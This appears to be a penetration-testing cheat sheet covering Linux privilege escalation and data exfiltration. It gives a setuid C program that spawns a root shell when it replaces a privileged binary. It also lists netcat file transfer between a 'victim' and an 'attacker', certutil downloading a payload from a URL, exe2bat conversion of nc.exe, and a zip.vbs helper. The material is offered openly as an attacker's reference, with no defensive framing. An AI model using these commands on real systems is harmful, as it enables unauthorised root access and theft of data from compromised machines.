 
## Linux Privilege Escalation

### Setuid.c

[lin_setuid.c](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e34438fd-f501-4f64-a291-714f9e4f36e3/lin_setuid.c)

If you can overwrite a binary that’ll be run with priviledge, run this.

```bash
int main(void)
{
    setgid(0);
    setuid(0);
    execl("/bin/sh", "sh", 0);
}
```

# Exfiltration

-   SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

-   Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Attacker
nc -nv $RHOST $RPORT < in.file
```

-   exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

-   certutil.exe

```bash
certutil.exe -urlcache -split -f "$URL" $FILENAME
```

-   zip.vbs

[zip.vbs](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/cbbb1ade-c651-43f3-afd5-dbda3ee227f8/zip.vbs)

[zip.vbs [Copy & Paste]](https://www.notion.so/zip-vbs-Copy-Paste-6157fb8aacf9407b824d7fae2f6078b7)

```bash
CScript zip.vbs $SRC $DEST
```
